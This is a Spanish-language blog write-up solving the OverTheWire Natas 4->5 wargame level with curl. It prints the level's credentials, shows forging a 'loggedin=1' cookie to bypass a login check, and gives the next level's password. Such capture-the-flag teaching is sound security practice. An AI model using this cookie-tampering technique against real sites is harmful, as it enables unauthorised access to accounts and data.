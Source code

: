 ```yaml
---
title: OverTheWire - Natas 4 -> 5 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 4 -> 5 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas5
Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
URL:      http://natas5.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/
```

![](/assets/images/images-otw-natas/natas4->5-1.png)

Nos indica que solo los usuarios que tengan sesión iniciada pueden ver la contraseña.

![](/assets/images/images-otw-natas/natas4->5-2.png)

Si agregamos el parámetro `-v` a curl, podremos ver más información sobre las peticiones.

```bash
curl -s -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Vemos que existe una cookie llamada **loggedin** y tiene de valor el número 0.

![](/assets/images/images-otw-natas/natas4->5-3.png)

Para agregar una cookie con el comando curl usamos el parámetro `--cookie`. En este caso agregaremos `--cookie 'loggedin=1'`.

```bash
curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie 'loggedin=1'
```

![](/assets/images/images-otw-natas/natas4->5-4.png)



# Contraseña
---

`aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

---

## [Anterior](/blog/level-3-4)
## [Siguiente](/blog/level-5-6)